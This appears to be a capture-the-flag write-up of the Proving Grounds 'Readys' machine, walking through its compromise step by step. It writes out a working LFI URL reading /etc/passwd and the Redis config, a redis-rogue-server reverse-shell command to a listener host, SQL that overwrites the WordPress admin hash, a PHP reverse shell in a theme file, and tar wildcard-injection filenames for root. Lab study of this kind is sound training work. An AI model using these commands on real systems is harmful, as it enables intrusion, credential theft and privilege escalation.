 ```yaml
---
layout: writeup
title: Readys - Proving Grounds
date: 2024-07-14 13:32:20 +0300
description: A Writeup of the Readys Box from Proving Grounds
image: # /assets/images/Flu/Flu_1.png
fig-caption: # Add figcaption (optional)
tags: [Linux, LainKusunagi, Redis]
---
```


Here's a writeup for Readys, an Intermediate Proving Grounds box I saw on the [LainKusanagi list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/). While this box has been rated Intermediate by OffSec, I'll note that the community has rated it to be Very Hard. I'll keep an eye on that as I have slightly have had boxes that I simply could not finish even when copying and pasting commands from official writeups. Looking at you Postfish. I kick things off with nmapAutomator and check port 80 for a website. Looks like we've got a Wordpress site. 

![Readys1.png](/assets/images/Readys/Readys1.png){: .center-aligned width="600px"}

So I give wpscan a shot and also take notice that we only have three ports open:

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
6379/tcp open  redis
```

In particular I notice that the site and the box itself are called Readys, awfully close to redis on port 6379. Could it be a clue? Could it be anything but a clue? I try to access, but it looks like authentication is required. 

![Readys2.png](/assets/images/Readys/Readys2.png){: .center-aligned width="600px"}

I check the results of the wpscan, and see there is a vulnerability for a plugin called `Site Editor 1.1.1`, which has a Local File Inclusion vulnerability on [exploit-db](https://www.exploit-db.com/exploits/44340) with a proof of concept to access the local `/etc/passwd` using this URL: `http://<host>/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd`, and that works. I can see there is a user named `alice`. That could come in handy. 

From here I do some quick research to see if there is a redis file that might have a password and start looking around for it. In this case that file is `/etc/redis/redis.conf`, and by looking for `pass` in the file, I see this string: 
`# requirepass Ready4Redis?`. I check that against `redis-cli`, and it works. 

![Readys3.png](/assets/images/Readys/Readys3.png){: .center-aligned width="600px"}

Thats a pretty good sign. I don't know a lot about redis, so I check [Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis)for options, and I try creating an ssh key and uploading a php shell, but neither work immediately. I also dump the database using [pyredis-dump.py](https://github.com/muayyad-alsadi/pyredis-dump/blob/master/pyredis-dump.py), but it appears to be empty save evidence of one of the exploits I've already tried. Then I try [RedisRogueServer](https://github.com/n0b0dyCN/redis-rogue-server), and I eventually do that working to set up a reverse shell with: `python3 redis-rogue-server.py --rhost 192.168.229.166 --lhost 192.168.45.183 --lport 9999 --passwd Ready4Redis?` 

![Readys4.png](/assets/images/Readys/Readys4.png){: .center-aligned width="600px"}

And we're off. Side note - I've been using [Penelope Shell Handler](https://github.com/brightio/penelope), and it's been great. Sets up a TTY shell automatically, and you can upload and download from the same window using its built-in menu. Unfortunately it looks like the redis user can't execute any scripts, so we may need to enumerate manually until we can find a different user or simply get another user to execute for us. It's worth noting that mysql is running, but we don't seem to be able to access it either from redis or alice. 

I check for running processes and realize that of course the wordpress server is still running, so I check for config files. In `/var/www/html/wp-config.php` we can see a DB-USER of `karl` and a DB-PASSWORD of `Wordpress1234`. We can use these credentials to log into mysql, check the wordpress database, and `SELECT * FROM wp_users;` which shows us this:

![Readys5.png](/assets/images/Readys/Readys5.png){: .center-aligned width="600px"}

Initially, I think the plan is to crack it, but after a few minutes of staring at hashcat I figure we can just add our own user. So I do some googling, and I try this: 
```INSERT INTO `wordpress`.`wp_users` (`ID`, `user_login`, `user_pass`, `user_nicename`, `user_email`, `user_url`, `user_registered`, `user_activation_key`, `user_status`, `display_name`) VALUES ('2', 'pop', MD5('party1'), 'Your Name', 'test@example.com', 'http://localhost', '2022-09-01 00:00:00', '', '0', 'Your Name');```

This does create the user, but we don't have admin access, so I decide to try simply updating the admin password:

`UPDATE wp_users SET user_pass = '$P$Bji8hVfidufunf4yRQ4/SIEcgON/mL0' WHERE ID =1;`. The hash here is the phppass for `party1`. This does update the table and allow us to sign in!

![Readys6.png](/assets/images/Readys/Readys6.png){: .center-aligned width="600px"}

From there I go to theme editor and edit the 404.php page for the theme in use with Ivan Sincek's reverse PHP shell, and I get a connection. 

![Readys7.png](/assets/images/Readys/Readys7.png){: .center-aligned width="600px"}

And we're alice. Maybe now we can actually check linpeas and lse if we need to. And we see this in lse:

![Readys8.png](/assets/images/Readys/Readys8.png){: .center-aligned width="600px"}

We check out that file, and we see this: 

![Readys9.png](/assets/images/Readys/Readys9.png){: .center-aligned width="600px"}

Looks like we may have a wildcard vulnerability. It looks like it is checking the `/var/www/html` for changes made in the last 3 minutes (-mmin 3), and as long as there is at least one, it creates a backup folder called `/opt/backups/website.tar`. So I create a quick reverse shell and name it shell.sh and, then I check [hacktricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks#tar) which says to use:
1. `touch "--checkpoint=1"`
2. `touch "--checkpoint-action=exec=sh shell.sh"` (with shell.sh being our malicious script)

But it doesn't work, because we get a `touch: unrecognized option '--checkpoint=1'` error. No worries, there's more than one way to skin a cat. We can use echo instead:

1. `echo "" > '--checkpoint=1'`
2. `echo "" > '--checkpoint-action=exec=sh shell.sh'`

And after a minute or so:

![Readys10.png](/assets/images/Readys/Readys10.png){: .center-aligned width="600px"}

We get our root shell!

Lessons learned: There were a lot of steps to this box, but most of them were pretty straightforward. I don't think I had ever done anything with redis before, updated a MySQL table, or used anything but `echo` to exploit a wildcard vulnerability. I also needed to use a wordpress exploit before getting access to the shell from the redis exploit. All in all, I enjoyed this, but it took a while, and it seems way simpler at the end. But I don't think I'd completed a box that the Proving Grounds community rated "Very Hard" without getting a hint, so that's good. 
